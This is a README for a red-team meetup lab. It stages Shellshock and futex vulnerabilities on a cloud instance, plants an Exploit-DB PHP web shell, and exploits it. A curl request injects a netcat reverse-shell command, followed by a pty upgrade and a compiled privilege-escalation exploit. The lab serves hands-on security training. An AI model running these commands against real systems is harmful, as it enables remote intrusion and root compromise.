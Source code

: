 # Launch Meetup and Hack Night

Refer to [Meetup page](https://www.meetup.com/redteamproject/events/259624820/) for details.

## Artifacts

* [Qwiklabs site](https://ce.qwiklabs.com/focuses/12629) (yes, the name doesn't make sense; I'm reusing another workshop)
* [Setup script](setup.sh), launch from Cloud Shell
* [Blue Ansible playbook](blue.yml)
* [Red Ansible playbook](red.yml)

## Instructions

1. Select your qwiklabs project from the dropdown menu in the top blue bar, i.e., ```qwiklabs-gcp-fa603bc97e11059a```
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/redteam-project/meetup.git
cd meetup/20190321
```

4. Run the setup script `./setup.sh`
5. SSH to the blue instance `gcloud compute ssh blue-1 --zone us-east4-a`
6. Update and install packages

```
sudo su -
yum update -y
yum install -y git ansible python-pip
```

7. Clone the `meetup`, `cyber-range-target`, and `exploit-curation` repos

```
git clone https://github.com/redteam-project/meetup
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Make this instance vulnerable to Shellshock and libfutex

```
ansible-playbook meetup/20190321/blue.yml
```

9. Wait for the instance to reboot, then re-log in

```
gcloud compute ssh blue-1 --zone us-east4-a
```

10. Now scan for exploitable vulnerabilities with `lem`

```
sudo su -
virtualenv venv
source venv/bin/activate
pip install lem
lem host assess --curation exploit-curation --kind stride --score 090000
lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell instances and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
yum install -y nmap-ncat
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the IP addresses with your blue-1 and red-1 IPs, respectively.

```
curl -X GET 'http://10.150.0.6/index.php?cmd=nc%20-nv%2010.150.0.7%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a reverse shell to `blue-1`. Use this Python trick to get a tty and invoke bash.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. **EDIT** - this doesn't appear to work , which could be the result of environment (GCE), or that cyber-range-target didn't properly downgrade the kernel rpm to a version with the libfutex vulnerability. In a way, this is exactly why this project matters -- it's hard to make cyber ranges repeatable, infrastructure-as-code environments. See the relevant [exploit-curation enhancement bug](https://github.com/redteam-project/exploit-curation/issues/1) to track progress, and check back later for an updated lab.

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```
